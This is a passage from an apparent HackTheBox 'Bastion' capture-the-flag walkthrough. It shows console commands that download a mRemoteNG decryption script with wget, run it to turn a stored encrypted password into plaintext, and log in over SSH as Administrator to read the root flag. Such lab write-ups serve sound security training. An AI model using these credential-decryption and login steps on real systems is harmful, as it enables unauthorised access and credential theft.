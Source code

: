 After googling, I found a tool that we can use to decrypt the password.
```console
bibo318@parrot:~/HTB/bastion$ wget https://raw.githubusercontent.com/haseebT/mRemoteNG-Decrypt/master/mremoteng_decrypt.py
2020-10-17 10:10:26 (6.45 MB/s) - ‘mremoteng_decrypt.py’ saved [1535/1535]

bibo318@parrot:~/HTB/bastion$ chmod +x mremoteng_decrypt.py 
bibo318@parrot:~/HTB/bastion$ ./mremoteng_decrypt.py -s "aEWNFV5uGcjUHF0uS17QTdT9k
> VqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
Password: thXLHM96BeKL0ER2
```
now ssh to Bastion with admin credential and grab root flag
```console
bibo318@parrot:$ ssh Administrator@bastion.htb
Microsoft Windows [Version 10.0.14393]                                                  
(c) 2016 Microsoft Corporation. All rights reserved.                                    

administrator@BASTION C:\Users\Administrator>type Desktop\root.txt   
```
if you wanna know about `%userprofile%\AppData\Roaming` read [this](https://askleo.com/whats-the-appdata-roaming-folder/)